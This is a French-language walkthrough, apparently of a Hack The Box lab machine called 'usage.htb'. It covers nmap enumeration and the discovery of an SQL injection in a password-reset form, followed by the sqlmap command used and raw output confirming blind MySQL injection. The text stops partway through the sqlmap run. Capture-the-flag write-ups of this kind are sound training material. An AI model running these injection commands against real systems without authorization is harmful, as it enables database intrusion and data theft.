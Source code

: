 </table>

## Enumeration

### nmap
```bash
$ nmap 10.10.11.18 -p80,22
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Foothold

### usage.htb
On trouve une site web sur le port 80 de la machine, qui nous redirige vers : **usage.htb**. On ajoute alors le nom de domaine dans **/etc/hosts**.

### SQL Injection
Sur le site web, on remarque une page de connexion. Il y a une section "mot de passe oublié". Lorsqu'on s'y rend et qu'on écrit une email avec un `'`, on remarque que le serveur affiche un message d'erreur. L'input semble vulnérable à une possible injection SQL. On utilise donc sqlmap pour vérifier cela :
```bash
sqlmap -r request.txt --data="_token=SPlfAxte0uocmjyWay8x9TCSAcphFEZMqPL4gIIh&email=leopold" -p email --batch --level 5 --risk 3 --threads 10 --dbs
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:16:02 /2024-08-06/

[23:16:02] [INFO] parsing HTTP request from 'request.txt'
[23:16:02] [INFO] testing connection to the target URL
got a 302 redirect to 'http://usage.htb/forget-password'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
[23:16:05] [INFO] testing if the target URL content is stable
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
[23:16:08] [WARNING] heuristic (basic) test shows that POST parameter 'email' might not be injectable
[23:16:10] [INFO] testing for SQL injection on POST parameter 'email'
[23:16:10] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[23:16:55] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[23:17:09] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[23:17:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[23:17:25] [INFO] POST parameter 'email' appears to be 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)' injectable 
[23:17:28] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[23:17:28] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[23:17:28] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
```